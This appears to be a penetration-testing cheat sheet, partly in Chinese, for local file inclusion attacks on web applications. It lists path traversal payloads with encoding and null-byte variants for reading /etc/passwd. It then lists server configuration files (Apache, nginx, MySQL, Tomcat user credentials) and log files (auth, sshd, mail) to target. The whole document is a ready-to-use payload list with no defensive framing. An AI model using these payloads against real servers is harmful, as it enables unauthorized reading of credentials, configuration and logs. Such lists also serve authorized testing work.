 # LFI

## Testing Payload

### Linux / Unix

- Common Payload
    - `./index.php`
    - `././index.php`
    - `.//index.php`
    - `../../../../../../etc/passwd`
    - `../../../../../../etc/passwd%00`
        - 僅在 5.3.0 以下可用
        - magic_quotes_gpc 需為OFF
    - `....//....//....//....//etc/passwd`
    - `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
    - `%252e/%252e/etc/passwd`
    - `ＮＮ/ＮＮ/ＮＮ/etc/passwd`
    - `.+./.+./.+./.+./.+./.+./.+./.+./.+./.+./etc/passwd`
    - `static\..\..\..\..\..\..\..\..\etc\passwd`
    
- Config
    - `/usr/local/apache2/conf/httpd.conf`
    - `/usr/local/etc/apache2/httpd.conf`
    - `/usr/local/nginx/conf/nginx.conf`
    - `/etc/apache2/sites-available/000-default.conf`
    - `/etc/apache2/apache2.conf`
    - `/etc/apache2/httpd.conf`
    - `/etc/httpd/conf/httpd.conf`
    - `/etc/nginx/conf.d/default.conf`
    - `/etc/nginx/nginx.conf`
    - `/etc/nginx/sites-enabled/default`
    - `/etc/nginx/sites-enabled/default.conf`
    - `/etc/mysql/my.cnf`
    - `/etc/resolv.conf`
    - `/etc/named.conf`
    - `/etc/rsyslog.conf`
    - `/etc/samba/smb.conf`
    - `/etc/openldap/slapd.conf`
    - `/etc/mongod.conf`
    - `/etc/krb5.conf`
    - `~/.tmux.conf`
    - `~/.mongorc.js`
    - `$TOMCAT_HOME/conf/tomcat-users.xml`
    - `$TOMCAT_HOME/conf/server.xml`

- Log
    - `/var/log/apache2/error.log`
    - `/var/log/httpd/access_log`
    - `/var/log/mail.log`
    - `/var/log/auth.log`
    - `/var/log/messages`
    - `/var/log/secure`
    - `/var/log/sshd.log`
    - `/var/log/mysqld.log`
    - `/var/log/mongodb/mongod.log`
    - `.pm2/pm2.log`
    - `$TOMCAT_HOME/logs/catalina.out`
